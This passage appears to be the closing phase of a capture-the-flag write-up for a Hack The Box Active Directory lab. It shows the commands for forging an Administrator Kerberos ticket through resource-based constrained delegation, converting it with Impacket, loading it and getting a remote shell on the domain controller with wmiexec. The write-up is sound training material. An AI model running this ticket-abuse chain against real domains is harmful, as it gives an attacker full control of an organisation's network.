<br>

<br>

### Phase 8 - Domain Compromise

The Domain Controller trusting the RBCD configuration that I had previously set, issued a valid service ticket for the Administrator user

When I requested a `Kerberos ticket` for the `Administrator user` via the `ANR$ account` using `Rubeus`, the `Domain Controller` **trusted** the **request** because of the `RBCD configuration` I had previously set<br>
The DC issued a valid service ticket for the Administrator user, which I then used to **authenticate** to the Domain Controller as `NT AUTHORITY\SYSTEM`, achieving full domain compromise

**Ticket Conversion:**  
I converted the Kerberos ticket from `.kirbi` to `.ccache` format and authenticated to the Domain Controller as NT AUTHORITY\SYSTEM.

```bash
impacket-ticketConverter admin_cifs_dc.support.htb.kirbi admin.ccache
```
<br>

**Activating the ticket :** 
I set the ticket as the active credential cache for Kerberos authentication:

```bash
export KRB5CCNAME=$(pwd)/admin.ccache
```
<br>

**Verifying the Ticket:**
I confirmed the ticket was successfully loaded using klist:

```bash
klist
```
<br>

**Administrator Access:**
Finally, I authenticated to the Domain Controller as the Administrator with Kerberos authentication:

```bash
impacket-wmiexec -k -no-pass administrator@dc.support.htb
```

Once connected, I navigated to the Administrator's desktop and found the `root flag` as proof of full `domain compromise`

<br>

<br>

#### I successfully compromised the entire Active Directory domain

<br>

### disclaimer : all these operations were carried out within a legal environment


